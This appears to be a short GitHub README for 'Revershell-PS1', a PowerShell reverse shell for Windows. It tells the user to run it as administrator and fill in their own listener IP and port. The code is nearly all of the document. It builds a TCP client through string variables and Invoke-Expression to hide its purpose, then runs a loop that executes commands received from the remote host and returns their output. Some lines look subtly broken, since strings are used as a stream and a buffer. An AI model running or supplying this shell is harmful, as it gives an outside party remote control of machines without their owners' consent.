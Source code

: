# Revershell-PS1
Revershell for windows (you must run powershell as administrator)
Change the 0's to your ip and port listening

```
$a = "New-Object"
$b = "System.Net.Sockets.TCPClient"
$c = "$b('000.000.00.0',000)" 
$d = "$a $c"
$e = Invoke-Expression $d
$f = "$e.GetStream()"
$g = "[byte[]]"
$h = "$g(0..65535|%{0})"
$i = "while((($j = $f.Read($h, 0, $h.Length))) -ne 0){$k = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($h,0, $j);$l = (Invoke-Expression $k 2>&1 | Out-String );$m  = $l + 'PS ' + (Get-Location).Path + '> ';$n = ([text.encoding]::ASCII).GetBytes($m);$f.Write($n,0,$n.Length);$f.Flush()};$e.Close()"
Invoke-Expression $i
```
